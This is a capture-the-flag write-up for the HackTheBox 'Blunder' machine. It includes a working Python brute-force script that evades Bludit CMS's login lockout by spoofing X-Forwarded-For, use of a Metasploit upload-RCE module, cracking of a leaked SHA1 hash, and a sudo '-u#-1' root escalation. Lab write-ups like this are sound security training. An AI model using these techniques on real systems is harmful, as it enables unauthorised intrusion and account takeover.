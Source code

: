 ```yaml
---
title: Writeup - HackTheBox - Blunder
published: true
---
```

![](Pictures/Blunder/logo.png)

This machine from HackTheBox is categorized as an “easy” Linux
machine.
The machine is hosting a website with Bludit CMS version 3.9.2.
The Bludit installation has security flaws that make’s it possible to get a remote shell for the user www-data. Bludit has a parallel installation on the server. From this installation I found a SHA1 hash for the account Hugo. Hugo is a user account on the server as well, and the password from the SHA1 hash is also the password for Hugo’s local account. There is a misconfigured setting for the user Hugo that makes it possible to escalate to root.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on the machine.
```
Nmap -sC -sV -oA nmap 10.10.10.191
```

![](Pictures/Blunder/nmap.png)

I noticed only two open ports on the system, port 21 and 80. The webserver is hosting a website.

### [](#header-3)Gobuster
Gobuster is a tool that can be used to enumerate a website by
guessing what content is placed on the webserver. I ran the the
following command to start gobuster with one of my built-in
wordlists in Kali Linux:

```
gobuster dir w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ -x php,html,txt
```

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

##### [](#header-5)Todo.txt
The file todo.txt seems to be something that is unusual. The
content of the file is the following:
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images – PENDING
This information might be useful in a later stage.

##### [](#header-5)Robots.txt
The robots file is a file that gives instructions to search
engines such as Google and Bing etc. The instructions might be to exclude content from the website.
Robots.txt on this web server doesn't give any further useful information.

##### [](#header-5)/admin
Visiting http://10.10.10.191/admin in the web browser shows me that this site uses Bludit CMS, and also ask me to login.

## [](#header-2)Exploitation

### [](#header-3)Cewl
At this stage I dont have any credentials to use to login to the
CMS. From the text file todo.txt I got a name, fergus. This is not
enough, I still need some passwords to try login.
Cewl is a tool that indexes a web site with all text and writes it
to a file, one line per word.

```
Cewl -m 5 10.10.10.191 -w cewl.txt
```

This command gives me all text on the website, with minimum 5
chars and saves it to the file cewl.txt. With this information I
can use this to try to login. The cewl.txt has 188 lines so it
will take time to try everyone manually. The Bludit CMS also have
a function that locks out the IP-address, if more than 10 tries
fails.

### [](#header-3)Bludit Brute Force Migitation Bypass
Bludit has a configuration in the file security.class.php that
locks the user out after 10 tries. I found a solution to bypass
this configuration online from a Security Researcher, <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/">rastating</a>.
Rastating writes about the problem and also provides a python-
script as a Proof Of Concept. By running a modified version of
this script with the assumption that the valid username is
“fergus”, I was able to find a matching password,
“RolandDeschain”, from the wordlist made by cewl earlier.
Now I was able to use the credentials to log on to the system.

#### [](#header-4)The modified script

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
	wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
	session = requests.Session()
	login_page = session.get(login_url)
	csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
login_page.text).group(1)

	print('[*] Trying: {p}'.format(p = password))

	headers = {
		'X-Forwarded-For': password,
		'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',

		'Referer': login_url
	}

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password,
		'save': ''
	}

	login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

	if 'location' in login_result.headers:
		if '/admin/dashboard' in login_result.headers['location']:
			print()
			print('SUCCESS: Password found!')
			print('Use {u}:{p} to login.'.format(u = username, p = password))
			print()
			break
```

### [](#header-3)Bludit_upload_images_exec - MetaSploit
There is a vulnerability in the image upload function what in
short terms means that an attacker can upload a malicious payload
file and get remote code execution.
There is a module added to MetaSploit that executes this attack.

![](Pictures/Blunder/metasploit.png)

With this exploit, using the credentials from before, I was able
to get a shell back for the user www-data.

### [](#header-3)SHA1 hash
From the folder /var/www/ I saw that there is another Bludit
installation on the server. Bludit-3.10.0a.

![](Pictures/Blunder/var-www.png)

Inside the folder /var/www/bludit-3.10.0a/bl-content/databases is
a file named users.php. The file contains information about the
user Hugo.

![](Pictures/Blunder/users.png)

The password shown in the picture is the SHA1 hash for the user
Hugo. The hash was cracked and the password is: Password120
I was now able to change user to Hugo.

![](Pictures/Blunder/user.png)

And here is the user.txt flag.

### [](#header-3)Privilege escalation
I did some enumeration to see if Hugo is able to perform commands
as root.

![](Pictures/Blunder/sudo-l.png)

With this knowledge I can use an technique to trick the system
that Im allowed to run bash as root.

```
sudo -u#-1 /bin/bash
```

This gives me a root shell and I was able to get the root.txt
flag.

![](Pictures/Blunder/root.png)